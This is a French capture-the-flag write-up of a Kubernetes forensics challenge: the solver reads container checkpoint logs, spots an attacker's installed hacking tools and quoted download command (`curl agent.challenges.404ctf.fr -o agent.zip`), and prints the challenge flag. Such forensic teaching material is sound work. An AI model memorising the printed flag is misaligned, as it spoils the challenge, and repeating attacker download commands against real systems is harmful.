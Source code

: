 # Les Mystères du cluster de la Comtesse de Ségur [1/2]

## Enoncé
Vous rencontrez la Comtesse de Ségur au Procope. La Comtesse de Ségur a créé une entreprise de vente de livres en ligne en s'aidant du succès de ses livres pour enfants et l'a déployé sur un cluster Kubernetes.

Celle-ci vous explique avoir été victime d'une demande de rançon. En effet, quelqu'un lui a volé ses livres pas encore publiés et menace de les publier sur Internet si elle ne lui paye la rançon demandée.

La Comtesse vous demande d'enquêter sur la manière dont le maître chanteur a pu voler ses livres et vous donne pour cela les informations à sa disposition.


## Solution
On commence par décompresser le fichier zip fourni, puis nous parcourons les fichiers de l'archive dans l'objectif de comprendre comment le maître chanteur a pu voler les livres. Notre attention se porte sur le fichier `io.kubernetes.cri-o.LogPath`, qui pourrait contenir des logs qui permettraient de comprendre ce qui c'est passé. Au cours de notre exploration de ce fichier, nous tombons sur une section où des outils de piratage sont installés, à partir du github de [carlospolop](https://github.com/sponsors/carlospolop). Il semble donc que nous soyons sur la bonne piste.

<p align="center"><img src="Hacking Tools.png" alt="Hacking Tools" width="800"></p>

Nous poursuivons l'analyse des journaux pour identifier les actions réalisées par l'attaquant. Nous constatons alors qu'il a téléchargé un fichier zip depuis le serveur du CTF à l'aide de la commande suivante : `curl agent.challenges.404ctf.fr -o agent.zip`.

<p align="center"><img src="Attacker Command.png" alt="Attacker Command" width="300"></p>

Nous exécutons alors cette commande, ce qui nous permet de récupérer le fichier zip nommé `agent.zip`. Après décompression, nous découvrons à l'intérieur un fichier `flag.txt` qui contient le précieux flag.

## Flag

<details>
<summary> Flag 🚩</summary>

```
404CTF{K8S_checkpoints_utile_pour_le_forensic}
```